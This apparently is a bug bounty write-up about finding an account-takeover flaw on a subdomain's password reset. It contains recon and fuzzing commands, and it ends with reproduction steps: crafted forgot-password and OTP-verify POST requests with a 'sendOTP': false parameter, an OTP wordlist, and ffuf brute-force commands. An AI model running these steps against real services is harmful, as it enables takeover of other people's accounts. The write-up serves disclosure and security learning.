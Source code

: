 Here is a story of an interesting bug I found on one of my target. Though it was a duplicate, it was a very nice finding. After hunting for few days in the main application of the target, I found nothing but few duplicates. Then I decided to go for it's subdomains. Here are some commands I used:

- Basic enumeration using [subfinder](https://github.com/projectdiscovery/subfinder):
```
subfinder -d target[.]com -o all-domains.txt
```

- Basic enumeration using [assetfinder](https://github.com/tomnomnom/assetfinder):
```
echo "target[.]com" | assetfinder | tee -a all-domains.txt
```

- Active scan using [amass](https://github.com/owasp-amass/amass):
```
amass enum -d target[.]com | tee -a amass.txt
```

- Using permutations with [dnsgen](https://github.com/AlephNullSK/dnsgen) and resolving them with [massdns](https://github.com/blechschmidt/massdns):
 ```
echo "target[.]com" | dnsgen - | massdns -r ~/wordlist/massdns/resolvers.txt -t A -o J --flush 2>/dev/null | cut -d "\"" -f 4 | sed "s/.$//g" | tee -a resolved.txt 
``` 

- After getting the list of domains, I used httpx to filter alive hosts with some port scanning as well:

```
cat all-domains.txt | httpx -ports 80,443,8009,8080,8081,8090,8180,8443,9200,5601 -sc -cl -title -t 100 -fr -nc | tee -a hosts.txt
```

Then after going through most of the domains, I found a sub-domain "accounts[.]target[.]com" which was a 404 page. Usually, I don't go for 404 pages, but something was interesting in this case. I tried searching this sub-domain in web-archive and all but nothing came up. Then, the only thing I could do there, was to fuzz for endoints. I used ffuf (my fav tool by the way), to fuzz for endpoints. Here is the command:
- using ffuf:
 ```
ffuf -u "https[:]//accounts[.]target[.]com/FUZZ" -w ~/wordlist/custom/all.txt -ac
```

Ffuf came up with some results, nothing interesting except the endpoint "login" which redirected me to a login page. After some enumeration, I found out that the login panel uses the same credentials as the main application "target[.]com", so I was able to login with my own account. After logging in into the application it redirected me to the main domain "target[.]com" which was kinda weird. I was thinking "what is the use of this damn sub-domain then". Then, I started to test the login page as it was different from main application. Unfortunetly, it wasn't vulnerable to anything I initially thought of... but there was no rate limit in place. So, bruteforce attack was possible which was out of scope, ofcourse. Then, I thought "Ok, there is no rate limit. So, maybe there are other features like forgot password/reset password which can be devastating", the reason I thought this was because the main application had a forgot password feature that uses OTP to change the password. But there was no such feature. Then, ffuf comes in play. The command I used:
- using ffuf to fuzz the "login" endpoint:
 ```
ffuf -u "https[:]//accounts[.]target[.]com/login/FUZZ" -w ~/wordlist/custom/all.txt -ac
```

And quickly ffuf found some result, and one of them were "resetPassword [Status: 405, Size: 112, Words: 9, Lines: 1, Duration: 537ms]". I was like f* yeah!! I knew it. Then I quickly crafted the "POST request" to "/resetPassword/verify-email" endpoint with a json body containing "email" and "otp" parameters which was exactly similar to the main application's email verification endpoint. But it returned "404 Not found" error. Then, I realized "Oh, because I have not initiated the forgot password request for this email. If they haven't send me an OTP, how the heck will the application finds it. Huh, so stupid.". I went to the main application and initiated the forgot password request which was a "POST request" to "/forgotPassword" endpoint with a json body containing the "email" parameter, the OTP was sent to my email. Then, I used the crafted "POST request" to "/resetPassword/verify-email" enpoint again with the correct OTP. And it successfully returned "302 Found" letting me change my password. And instantly I thought of "account takeover via OTP bypass due to no rate limit in place". I was screaming like "I am GOD. Noone is better than me. Who the f* is elliot". Annnnd then, I repeated the entire process to verify if the exploit works successfully for the POC, ofcourse. But I found out that after consecutive 5 wrong OTP, the applcation returns "404 Not Found" with a json body containing a parameter "reason" saying "attempts exceeded" or something. So, this was another dead-end. But as you know, a hacker never give up. I enumerated further, and imagined "If I have 5 chances to get the OTP right, let's see if I can initiate the forgot password request again -> get 5 more chances -> and if the old OTP works by any chance" but nope. Unfortunately using the old OTP, the application returned "404 Not Found" with a json body with the same parameter "reason" saying "code mismatched". Another dead-end. I thought "even if it was possible, I wouldn't have been able to initiate the forgot password request from main application every second or as many times I want, as there was rate limit in place in the main app..., and I would probably get blocked, right ?. And the main application also only let's you send maximum 10 OTP to your email. So, that will be merely 50 chances lol and the OTP code is 4 digit long and that will be 10000 combinations". So, is this the end ? Nope, not giving up. I thought "Why haven't I tried to create a similar forgot password 'POST request' to '/forgotPassword' endpoint in 'accounts[.]target[.]com' sub-domain ?". The next thing I tried, was to create a similar "POST request" as the main application to "/forgotPassword" endpoint to see if I can initiate the OTP request more than 10 times. And guess what, I was able to do that, this means that I can initiate as many OTP emails as I want (can cause email DOS, making the servers busy). Then the only problem I had, was that I cannot try more than 5 OTP. After 5 unsuccessful attempts, I have to initiate a new OTP request and this way the old OTP expires. I cannot think shit anymore. And what I did next was nuts. Because "accounts[.]target[.]com" has no rate limit in place, I fuzzed all the way up. I used "paraminer" in burpsuite by albinowax to fuzz everything, literally everything. Then, I found 2 json parameters in the forgot password request (OTP initiate request), HAHAHAHAHA (evil laugh), they were {"email":test@test[.]com, "sendLink": true, "sendOTP": true}. The first parameter "email" was the email you want to send the OTP to. The second parameter "sendLink" was to send a link within the OTP email, if the user wants to change the password via a link (funny thing is, you can change it to false, so that user cannot change the password before you do lol). And the third parameter "sendOTP" was to send the OTP code in the email. When I changed the parameter value of "sendOTP" from `true` to `false`, then guess what happened ? Yepp, the code wasn't send in the email but the request was initiated. Hence, making the previously requested OTP valid. Then, I send a "POST request"  to "/email-verify" endpoint with the previously initiated OTP, and it let me change the password. There we go. Now, using this vulnerability, I was able to completely change anyone's password and takeover their account.

#### Steps to Reproduce: (using ffuf)
1. Navigate to "https[:]//accounts[.]target[.]com/login/" (you can perform user enumeration here)
2. Initiate a forgot password request using the victim email from the main application or using this request:
```
POST /forgotPassword HTTP/1.1
Host: target[.]com
<-snip->
{
"email": "victim@victim[.]com"
}
```

3. This POST request is responsible for initiating OTP request without sending OTP code. Save this request in a file (ex: req1):
```
POST /forgotPassword HTTP/1.1
Host: accounts[.]target[.]com
Random-Host: FUZZ
<-snip->
{
"email": "victim@victim[.]com",
"sendLink": false,
"sendOTP": false
}
```

4. This POST request is used for brute forcing the OTP value. Save this request in another file (ex: req2):
```
POST /resetPassword/verify-email HTTP/1.1
Host: accounts[.]target[.]com
<-snip->
{
"email": "victim@victim[.]com",
"otp": FUZZ
}
```

5. Create otp payloads using this command: `seq -f "%04g" 0 10000 > otp`
6. Open two tabs in terminal.
7. 1st tab: `ffuf -request req1 -w otp -ac -t 1 --timeout 50`
8. 2nd tab: `ffuf -request req2 -w otp -ac`
9. After successfully getting the correct OTP, you can change the password and takeover the account.
